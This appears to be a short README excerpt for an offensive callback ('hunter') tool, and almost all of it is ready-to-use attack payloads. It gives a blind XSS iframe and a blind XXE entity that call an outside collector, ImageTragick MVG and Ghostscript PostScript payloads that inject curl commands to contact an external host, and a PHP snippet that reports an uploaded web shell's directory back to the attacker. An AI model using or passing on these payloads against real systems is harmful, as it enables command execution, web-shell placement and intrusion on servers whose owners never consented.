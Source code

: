 ###### EXAMPLES :
> Blind XSS :
* <iframe src="http://example/Hunter.php?url=victim.com"></iframe>

> Blind XXE :
* <!ENTITY name SYSTEM "http://example/Hunter.php?url=victim.com">

> ImageTragick :
1* push graphic-context
   viewbox 0 0 640 480
   image over 0,0 0,0 'http://dead.epizy.com/1.php?x=%60curl http://dead.epizy.com/1.php'
   pop graphic-context

2* %!PS
   userdict /setpagedevice undef
   legal
   { null restore } stopped { pop } if
   legal
   mark /OutputFile (%pipe%curl -XGET http://dead.epizy.com/1.php') currentdevice putdeviceprops

> While uploading a Shell and didn't get it's path :
 
<?php  
// this script make request to hunter contains the unknown path of the uploaded shell
// the request will be sent once the file opened 
$url = "http://example/hunter.php?location=".getcwd();
$do = file_get_contents($url);
if($do) {
  print "location sent";
}

?>